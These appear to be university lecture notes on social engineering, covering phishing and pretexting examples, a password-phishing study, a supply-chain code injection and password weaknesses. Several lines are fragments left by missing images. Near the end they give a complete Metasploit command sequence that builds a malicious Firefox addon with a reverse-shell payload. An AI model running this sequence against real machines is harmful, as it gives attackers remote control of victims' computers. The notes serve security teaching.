Hugh Anderson [Q]
May 18, 2026
Warfare, with an indistinct enemy.
In this session we will look at a range of ways that people are manipulated: phishing, vishing, tricking... We will also be looking at some elements of the fightback against this “social engineering”.

The goals of Social Engineering range over multiple axes of activities. We may be trying reconnaissance, or to manipulate people to do things, or other things. For the reconnaissance goal, we show above a range of tools, identified by level of interaction, mechanism, and age.
Pretexting: using an invented scenario to engage a targeted victim to increase the chance the victim will divulge information. An elaborate lie...
“Hello, this is Alice calling from Microsoft Security Services. We are recording a security alert with your computer..”.
Phishing: attempting to acquire information such as usernames, passwords, and credit card details by masquerading as a trustworthy entity...
“Dear valued PayPal Customer, Due to a policy update we need to verify your PayPal account. Please download the attached file...”.
Recently I got this: “Thank you for choosing PayPal. Our security measures are in line with requirements from the Monetary Authority of Singapore (MAS) to reduce risks of money laundering and terrorist financing. ...need you to provide some documents... How can we differentiate between them?
336 computer science students at the University of Sydney were sent an email asking them to supply their password on the pretext that it was required to ‘validate’ the password database after a suspected breakin.
138 of them returned a valid password. Some were suspicious: 30 returned an invalid password. 200 changed their passwords.
Many banks /businesses train their customers to act in unsafe ways:
It’s not prudent to click on links in emails, so if you want to contact your bank you should type in the URL or use a bookmark — yet banks continue to send out emails with clickable links. It’s not prudent to give out security information over the phone to unidentified callers— yet we get phoned by bank staff who demand security information without having any well-thought-out means of identifying themselves.
Wei Tang runs software on the corporate network.
Kevin loses control of his phone account.
 |
The source code for “open source” projects is of course open and readable by anyone. It would appear that it should be very difficult to inject malicious code into a critical component used by open source (and other) software. Surely the millions of people in this community would find new malicious code? When code is compiled, it is run through a series of tests to ensure it is OK. The general technique the attackers used was to insert the malicious code into the test software (suitably obfuscated), which would insert the malicious binary code at test time. |
 |
Over nearly two years he was engineered to pass on partial control of the distribution to an attacker. The attackers took their time. Over 18 months they
Eventually the friendly supporter was given partial control, and uploaded an injection. The attackers are unknown, but probably are a state organization. |
 |
For social engineering, it is interesting to study the strengths and weaknesses of humans. What can an attacker/defender exploit? As examples of weaknesses, note that we have poor recall, short term memory limited to about 5 choices, and the heart takes over when the head runs out. In addition, we have poor evaluation of risk: we dislike losing $100 more than we like winning $100. We also bow to “authority” - even with contrary evidence from our own eyes. As examples of strengths, note that we can recognize humans easily, we can detect subtle patterns, and understand nuances of speech. |
Something you have, something you know, something you are... (or facetiously: something you once had, something you’ve forgotten, something you once were).
Most central is the password - 4/5/6 digit PINs, 8 (or more) character passwords.
Note that there may be different complexity requirements. For example a four digit PIN may be OK on an ATM, because the machine can lock the account after (say) three invalid guesses. By contrast a University password should be much longer, because an attacker could attack (brute force) all the 4-digit passwords in a very short time.
Anderson is critical of the repeated use of (US) social security numbers, and “your mother’s maiden name ” - it leads to a huge industry of identity theft.
Californians reveal their passwords.
If too long, there may be problems in entering the data correctly, although grouping helps (928377461534518 versus 9283 7746 1534 5198).
If you have to remember the password, we tend to base passwords on something like our family names or interests, along with a couple of digits. Unfortunately this makes the passwords hackable - dictionary attacks using words and names and combinations. Forced changes can cause problems - for example a password “family”: secret1pass, secret2pass, secret3pass and so on.
Anderson ran a test, with three groups:
Henderson becomes rich?








 |
Here is a screenshot from my computer, when my brother-in-law chatted to me one day “out of the blue”. I kind of knew pretty quickly that it was not him. There were clues... If I had been feeling a bit more aggressive I would have kept him talking to waste his time. |
Solomon Odonkoh does not become rich.


Metasploit enables a collection of exploits - that is, it can generate exploits for you to try out against your systems and applications.
Use msf-console to construct an attack:
msfconsole
use exploit/multi/browser/firefox_xpi_bootstrapped_addon
show targets
set target 1
set srvhost 10.0.2.15
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.2.15
run... (shows the URL)
sessions -i
sessions -i 1The command above uses msf-console to construct an addon for the Firefox web browser in a web page. It returns the URL of the webpage. Once the victim clicks on the web page, the payload connects back to the host, allowing the attacker to have CMD prompt access to the victim’s computer.

